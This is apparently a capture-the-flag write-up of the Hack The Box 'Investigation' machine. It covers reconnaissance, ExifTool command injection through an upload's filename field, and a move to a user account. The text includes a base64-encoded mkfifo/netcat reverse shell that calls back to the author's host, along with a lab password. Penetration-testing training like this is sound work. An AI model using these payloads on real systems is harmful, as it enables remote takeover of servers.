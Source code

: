 # HTB - Investigation
# Start: 28/02/2023
# IP 10.10.11.197

## Info gathering
### Nmap
```
 nmap -sV -sC investigation.htb -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-28 14:52 GMT
Nmap scan report for investigation.htb (10.10.11.197)
Host is up (0.013s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f1e6306aa6ebbcc0d19d4152674c6d9 (RSA)
|   256 274520add2faa73a8373d97c79abf30b (ECDSA)
|_  256 4245eb916e21020617b2748bc5834fe0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://eforenzics.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
6969/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
|_http-title: Directory listing for /
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Interesting:
- Redirect to eforenzics.htb
- secondary http server with directory listing

adding the redirect to host file, no change in nmap

### WebContent
#### http://eforenzics.htb/

##### /service.html
allows for a .jpg file to be uploaded and returns a link to `/analysed_images/`, a sample output is as follows
```
ExifTool Version Number         : 12.37
File Name                       : White-faced Saki Monkey image.jpg
Directory                       : .
File Size                       : 7.4 KiB
File Modification Date/Time     : 2023:02:28 18:43:27+00:00
File Access Date/Time           : 2023:02:28 18:43:27+00:00
File Inode Change Date/Time     : 2023:02:28 18:43:27+00:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Exif Byte Order                 : Little-endian (Intel, II)
Software                        : Google
Exif Version                    : 0220
Exif Image Width                : 275
Exif Image Height               : 183
Image Width                     : 275
Image Height                    : 183
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 275x183
Megapixels                      : 0.050
```
The tool used to generate is listed at the top, ExifTool v12.37
Interesting:
- Exiftool 12.37 is vunerable to command injection < 12.38 (https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)


Other process run:
- gobuster returned nothing interesting
#### SimpleHTTP port 6969
Interesting:
- Contains 2 files, one is empty (analyzed log)
- The other is some sort of message file, using an online .msg reader, there is one zip attachment with a windows log file (.evtx)

### Event Logs
Interesting:
- Domain:EFORENZICS-DI
- accounts: SMorton,AAnderson,Administrator,(a lot)


## Exploiting
its enough to upload one image and save it into burpsuite repeater so you can edit the filename field within the form-data,
to confirm the vulnerability was exploitable i used `filename="echo 'curl 10.10.14.58:8000' | bash |"` which did indeed call back to my host.

if we add any other pipes to the command e.g. > the command will fail to run, however we can pass a b64 encoded command, pipe it to the base64 -d command to decode and pipe the result into bash to run it, which avoids the other pipes breaking it.

```
curl 10.10.14.58:8000/?d=$(rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.58 4444 >/tmp/f)
b64 encoded:
Y3VybCAxMC4xMC4xNC43MDo4MDAwLz9kPSQocm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNzAgNDQ0NCA+L3RtcC9mKQ==

filename="echo 'Y3VybCAxMC4xMC4xNC41ODo4MDAwLz9kPSQocm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNTggNDQ0NCA+L3RtcC9mKQ==' | base64 -d | bash |"

```

```
nc -lvnp 4444                                            
Listening on 0.0.0.0 4444
Connection received on 10.10.11.197 33714
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data


```

We have internal access to the box!
### Host info gathering
Running linpeas first as we are in a linux server

users with console:
```
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```
```
══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml
```
```
╔══════════╣ Analyzing Other Interesting Files Files (limit 70)
-rw-r--r-- 1 root root 3771 Feb 25  2020 /etc/skel/.bashrc

```
### Event Logs (part 2)
I missed something important within the event log, i searched for the typical event ID:4624 which is successful login, but i did not check 4625, where we can find someone trying to login with the password as the username! Silly!
Password found `Def@ultf0r3nz!csPa$$`

```
$ su smorton 
Password: Def@ultf0r3nz!csPa$$
whoami
smorton

```
and we're in to a legit user!